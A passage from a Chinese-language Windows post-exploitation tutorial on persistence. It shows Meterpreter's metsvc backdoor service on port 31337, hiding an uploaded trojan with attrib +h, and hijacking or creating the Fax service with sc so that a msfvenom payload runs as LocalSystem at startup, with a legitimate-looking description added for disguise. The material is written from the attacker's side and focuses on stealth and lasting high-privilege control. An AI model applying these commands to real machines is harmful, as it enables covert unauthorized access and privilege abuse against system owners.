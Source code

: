 同时会新建一个服务，其显示名称为 Meterpreter ，服务名称为 metsvc ，启动类型为 "自动"，默认绑定在 31337 端口。

如果想删除服务，可以执行:

```
meterpreter > run metsvc -r


```

于此同时，我们通过 msf 上传上去的 exe，为了更加隐蔽，我们可以将 exe 设置为隐藏文件，利用如下命令：

```
#增加隐藏属性
attrib +h service.exe

#去掉隐藏属性
attrib -h service.exe


```

### 0x08 修改系统服务

当攻击者拿到一台机器的 shell 时，可以通过修改系统上的服务，以达到持久控制。攻击者将恶意软件隐藏在服务执行的位置，修改该服务执行的用户权限，达到获取高权限 shell 的目的。

首先来了解一下 binPath ， binPath 是将服务指向启动服务时需要执行的二进制文件的位置。操作过程中，我们需要利用 sc 命令：

SC 命令主要的几个功能：

```
1.更改服务的启动状态(这是比较有用的一个功能),可以设置存储在注册表中的服务属性，以控制如何在启动时启动服务应用程序，以及如何将其作为后台程序运行。即更改服务的启动状态。
2.删除服务(除非对自己电脑的软、硬件所需的服务比较清楚，否则不建议删除任何系统服务，特别是基础服务)。
3.停止或启动服务(功能上类似于net stop/start，但速度更快且能停止的服务更多)。
4.SC可以检索和设置有关服务的控制信息，可以使用SC.exe来测试和调试服务程序。
5.可以创建批处理文件来调用不同的SC命令，以自动启动或关闭服务序列。
#说白了: SC.exe提供的功能类似于”控制面板”中”管理工具”项中的”服务”。


```

举个栗子：默认情况下，Windows 不会启用传真服务。所以，传真服务是我们修改的理想服务，因为它不会中断正常用户的操作。

```
#将msfvenom生成的木马文件上传C:\\123123.exe。

#修改Fax传真服务
sc config Fax binPath= "C:\\123123.exe"
sc start Fax

#创建Fax传真服务，并设置为自启动
sc create Fax binPath= "C:\\123123.exe" start= "auto" obj= "LocalSystem"

#增加服务描述
sc descrīption Fax "利用计算机或网络上的可用传真资源发送和接收传真。"


```
